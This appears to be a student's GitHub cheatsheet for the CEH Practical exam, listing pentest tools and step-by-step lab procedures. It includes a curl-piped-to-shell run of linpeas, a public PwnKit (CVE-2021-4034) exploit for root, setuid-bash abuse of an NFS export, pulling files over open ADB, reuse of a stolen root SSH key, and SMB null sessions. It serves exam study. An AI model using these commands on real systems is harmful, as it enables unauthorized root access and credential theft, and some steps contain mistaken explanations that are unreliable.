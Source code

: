 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes

Exam RoadMap
1,2,8,11,12,16,17,18,20,7 (10 marks)  10,19,4,5,15,14,13,6,3,9  

**Priviledge Escalation**
Use LinPeas
1.	login to the ubuntu machine using the credentials given
2.	go to google and type linpeas, go to the github depository and download linpeas.sh (found on the release page) or use the command given 
3.	go to download. Cd Downloads/ then ls to view contents
4.	chmod +x linpeas to be  executable then ls
5.	run the executable by using attacke-1:~/Downloads$ ./linpeas.sh
6.	The other one is you can use curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh, found on github as well
7.	search for CVE-2021-4034 on mozilla the Cd Downloads/
8.	git clone https://github.com/arthepsy/CVE-2021-4034.git
9.	cd CVE-2021-4034
10.	type command "make"
11.	then type "./exploit" boom we are root
12. Alternative2: you can copy the cve-2021-4034-poc.c from Downlods to /tmp then CD /tmp
13. to compile you can use gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
14. then ./cve-2021-4034-poc and press enter you should be root.

Priviledge Escalation 2
Exploiting misconfigured NFS (port 2049)
1.	nmap -sV —p 2049 IP/Subnet
2.	sudo apt-get install nfs-common
3.	nmap -sV —script=nfs-showmount <Target_IP>
4.	check available mounts: showmount -e <Target_IP> -> we will see /home directory
5.	mkdir /tmp/nfs
6.	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
7.	cd /tmp/nfs
8.	sudo cp /bin/bash .
9.	sudo chmod +s bash -> it will be highlighted in red
10.	ls -la
11.	sudo df -h
12.	sudo chmod +s bash
after them, In another terminal:
	1. Access to target using SSH
	2. ./bash -p and we're root!
	3. cd /home
	4. ls -la
	5. Find the flag: find / -name "*.txt" -ls 2> /dev/null



**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
1.	Scan adb port: nmap ip -sV -p 5555
2.	Connect adb: adb connect IP:5555
3.	Access mobile device: adb shell
4.	Elevate privilege using: sudo -i (if it is possile)
5.	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
6.	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
7.	We've three elf files, now we need to calculate entropy for each of them using this command: ent file.elf
8.	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

Vertical Privilege escalation 
1. ssh smith@Ip –p 1337
2. sudo -L to check on users
3. cd /root then ls to see the .txt file, try to cat the file but permission is denied
4. then find the .ssh file 
5. then you cat id_rsa file key. Copy the key from beginning to end then nano id_rsa and paste the key
6. chmod 600 id_rsa  this give it root privileges 
7. as you are logged ,ssh root@ipaddrr –p 1336 –I id_rsa then you will have performed a vertical privilege escalation 

SMB Connection
1. smbclient -L <TARGET_IP> -N
2. smbclient -L <TARGET_IP> -U <USER>
3. smbclient //<TARGET_IP>/<USER> -U <USER>
4. smbclient //<TARGET_IP>/admin -U admin
5. smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
1. smbclient //<TARGET_IP>/share_name
2. help
3. ls
4. get <filename>

smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\flag.txt'
